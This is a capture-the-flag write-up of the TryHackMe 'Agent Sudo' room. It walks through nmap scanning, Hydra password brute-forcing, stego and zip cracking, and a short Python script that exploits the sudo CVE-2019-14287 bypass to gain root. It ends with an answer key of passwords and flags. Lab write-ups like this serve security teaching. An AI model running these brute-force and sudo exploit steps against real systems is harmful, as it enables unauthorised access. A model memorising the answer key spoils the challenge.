```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/AgentSudo/logo.png
date: 2022-09-10 09:45:47+07:00
modified: 2022-09-10 09:45:47+07:00
categories: TryHackMe
machine_author:
  link: https://tryhackme.com/p/DesKel
  name: DesKel
tags: [CVE, Agent Sudo, TryHackMe, Writeup, CTF]
title: Agent Sudo
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/thmbanner.png)

 
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Recon


I start port scanning with [Nmap]() to find existing ports and services.

`sudo nmap -sC -sV -oA nmap/agentsudo 10.10.133.149`


|Ports|Service
|21|FTP (vsftpd 3.0.3)
|22|SSH (OpenSSH 7.6p1
|80|HTTP (Apache httpd 2.4.29

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/1.png)

I checked the website and wants me to change my user-agent

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/02.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2.png)

## Brute-Force

“25 employees” suggesting letters in the alphabet. So I have decided to brute force using all the letters.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2_1.png)
![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2_2.png)

After changing my user name to “C” I got the following message.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/2_3.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/3.png)

Next, I decided to check out the FTP server. As I don’t have a password, I tried to brute-force using [Hydra]() and rockyou.txt()

`hydra -t 3 -l chris -P /home/sz/Documents/rockyou.txt 10.10.133.149 ftp`

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/4.png)

I got the password to log in to FTP.

After logging in I found two .png and one .txt file. After downloading them I checked out the message.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/5.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/5_1.png)

“stored in the fake picture” suggesting pictures are [Steganography]().

I brute-forced with [Stegcracker]() and found the following text

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/6.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/7.png)

Not very useful. For the other picture, I used [binwalk]() to extract the files inside one of the images.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/8.png)

I found a zip file and brute-force that with [John]()

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/9.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/10.png)

Now I have the username and password to ssh.

After logging in ssh I found the user flag

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/11.png)

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/12.png)

## OSINT

Inside I found an image 

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/13_1.png)

After a simple Google reverse image search, I found this article.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/13.png)

## Privilege Escalation

After doing some basic enumeration I found a possible shell escaping way. 

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/14.png)

After doing some research I have found the following CVE.

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/15.png)

I made a Python file with the following code. 

```python
#!/usr/bin/python3
import os
#Get current username
username = input("Enter current username :")
#check which binary the user can run with sudo
os.system("sudo -l > priv")
os.system("cat priv | grep 'ALL' | cut -d ')' -f 2 > binary")
binary_file = open("binary")
binary= binary_file.read()
#execute sudo exploit
print("Lets hope it works")
os.system("sudo -u#-1 "+ binary)
```

After executing the file I got root!

![](https://photos.squarezero.dev/file/abir-images/AgentSudo/16.png)


 <a href='https://ko-fi.com/N4N64TH56' target='_blank'><img height='36' style='border:0px;height:36px;' src='https://cdn.ko-fi.com/cdn/kofi3.png?v=3' border='0' alt='Buy Me a Coffee at ko-fi.com' /></a>

***Q1. How many open ports?***

***A. 3***

***Q2. How you redirect yourself to a secret page?***

***A. user-agent***

***Q3. What is the agent name?***

***A. chris***

***Q4. FTP password***

***A. crystal***

***Q5. Zip file password***

***A. alien***

***Q6. steg password***

***A. Area51***

***Q7. Who is the other agent (in full name)?***

***A. james***

***Q8. SSH password***

***A. hackerrules!***

***Q9. What is the user flag?***

***A. b03d975e8c92a7c04146cfa7a5a313c7***

***Q10. What is the incident of the photo called?***

***A. Roswell alien autopsy***

***Q11. CVE number for the escalation***

***A. CVE-2019-14287***

***Q12. What is the root flag?***

***A. b53a02f55b57d4439e3341834d70c062***

***Q13. (Bonus) Who is Agent R?***

***A. DesKel***